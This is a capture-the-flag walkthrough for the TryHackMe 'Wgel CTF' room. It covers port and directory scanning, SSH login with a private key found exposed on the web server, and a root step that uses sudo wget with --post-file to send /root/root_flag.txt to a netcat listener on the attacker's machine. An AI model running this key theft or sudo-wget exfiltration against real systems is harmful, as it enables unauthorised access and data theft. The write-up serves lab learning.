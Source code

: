 # [Wgel CTF](https://tryhackme.com/room/wgelctf)

## Can you exfiltrate the root flag?

# Wgel CTF

## Have fun with this easy box.

### User flag

1. First, identify open ports and running services

```bash
nmap IP
```

![SCREEN01](https://github.com/user-attachments/assets/a3936962-b3c9-4eea-bc44-afa946397455)

2. When visiting the web server at `http://<TARGET_IP>:80`, we find a default Apache2 welcome page. However, examining the HTML source code reveals comment containing the name **"Jessie"**

![SCREEN02](https://github.com/user-attachments/assets/766733c7-6e9c-44ca-a0b5-79639518fc7e)

3. Scan for hidden directories on the web server
   - We found `/sitemap` directory

![SCREEN03](https://github.com/user-attachments/assets/e9995ed7-4466-4e4e-a3e3-4625f9f87290)

```bash
gobuster dir -u http://IP -w /root/Tools/wordlists/dirbuster/directory-list-2.3-medium.txt -x html,php,txt,js
```

4. Scan newly discovered directory `/sitemap`
   - This reveals `.ssh` directory

```bash
gobuster dir -u http://IP/sitemap -w /root/Tools/wordlists/SecLists/Discovery/Web-Content/common.txt
```

![SCREEN05](https://github.com/user-attachments/assets/81f44ab5-ed89-4956-aec7-29845b2acd1e)

5. Navigating to `http://<TARGET_IP>/sitemap/.ssh/id_rsa`, we find an exposed private SSH key
   - Set appropriate permissions for the SSH key

```bash
chmod 600 id_rsa
```

6. Access SSH using the previously discovered username **Jessie** and the SSH key to locate the user flag

```bash
ssh -i id_rsa jessie@IP
cd Documents/
cat user_flag.txt
```

![SCREEN06](https://github.com/user-attachments/assets/873c236a-839c-49f3-a859-4fd60c3e6bb9)

### Root flag

1. Check what commands the current user can execute with sudo privileges

```bash
sudo -l
```

![SCREEN07](https://github.com/user-attachments/assets/7e1c9176-b502-4989-90c1-fe8f46b345e5)

2. Since `wget` can be executed with root privileges, we can use it to read files that only root has access to and exfiltrate them to our attack machine
   - Start a listener on attack machine
   - On the target machine, use wget with sudo to POST the contents of the root flag to listener

```bash
nc -lvnp 4444
```

```bash
sudo /usr/bin/wget --post-file=/root/root_flag.txt http://IP:4444
```

![SCREEN08](https://github.com/user-attachments/assets/759f1ba4-d169-4b18-ae70-873311b3e59b)
![SCREEN09](https://github.com/user-attachments/assets/17646d9c-73ef-4663-bc53-2865e7abac0a)

